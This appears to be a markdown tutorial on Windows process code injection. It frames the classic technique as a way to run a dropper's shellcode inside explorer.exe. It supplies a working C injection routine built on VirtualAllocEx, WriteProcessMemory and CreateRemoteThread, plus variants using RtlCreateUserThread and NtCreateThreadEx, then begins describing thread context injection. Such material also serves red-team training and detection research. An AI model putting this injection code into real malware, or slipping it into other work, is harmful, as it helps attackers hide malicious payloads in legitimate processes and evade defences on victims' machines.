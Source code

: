 Code Injection

# "Classic" Code Injection
There are many other code injection techniques, the most basic being the "classic" method and several variations of the classic method. There are essentially three steps:

For example, we have created a dropper with shellcode inside and we want to run the shellcode in the `explorer.exe` process. In order to accomplish this via "Classic" code injection technique, there are two steps:
1.	Deliver the payload/shellcode to the remote process. This involves two steps:
	1. `VirtualAllocEx` - Allocates a new memory buffer and prepares for the shellcode.
	2. `WriteProcessMemory` - Write the shellcode into remote process
2.	Trigger the execution of the shellcode in the remote process. There are several methods:
	1. `CreateRemoteThread` - The most common API function for execution.
	2. `RtlCreateUserThrear` - Variation 1
	3. `NtCreateThreadEx` - Variation 2

The same code 

```c
int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
	LPVOID pRemoteCode = NULL;
	HANDLE hThread = NULL;
	
	pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ); //allocates memory for shellcode
	WriteProcessMemory(hProc, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL); //write to remote process memory
	hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) pRemoteCode, NULL, 0, NULL); // execute the remote code.
	
	if (hThread != NULL) {
			WaitForSingleObject(hThread, 500);
			CloseHandle(hThread);
			return 0;
	}
	return -1;
}
```
The code execution variations described earlier are implemented below:

**Variation 1**
```c
pRtlCreateUserThread(hProc, NULL, FALSE, 0, 0, 0, pRemoteCode, 0, &hThread, &cid);
```
**Variation 2**
```c
pNtCreateThreadEx(&hThread, GENERIC_ALL, NULL, hProc, (LPTHREAD_START_ROUTINE) pRemoteCode, NULL, NULL, NULL, NULL, NULL, NULL);
```

# Thread Context Injection
Another method of triggering code execution in a remote process. Thread Context Injection allows one thread to manipulate the execution context of another thread. This means that a thread can modify the stack, register values, or other internal state of another thread.
